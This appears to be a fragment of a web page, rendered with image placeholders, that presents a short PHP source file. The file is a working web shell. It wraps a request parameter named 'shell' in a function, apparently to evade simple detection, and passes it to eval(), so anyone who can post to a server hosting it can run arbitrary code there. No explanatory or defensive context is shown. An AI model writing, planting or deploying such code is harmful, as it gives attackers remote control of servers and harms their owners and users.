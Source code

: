 ![](img/12.png)

```php
<?php
function a()
{
    return 1>0? @$_POST['shell']:0;
}

eval(a());
?>
```
![](img/13.png)
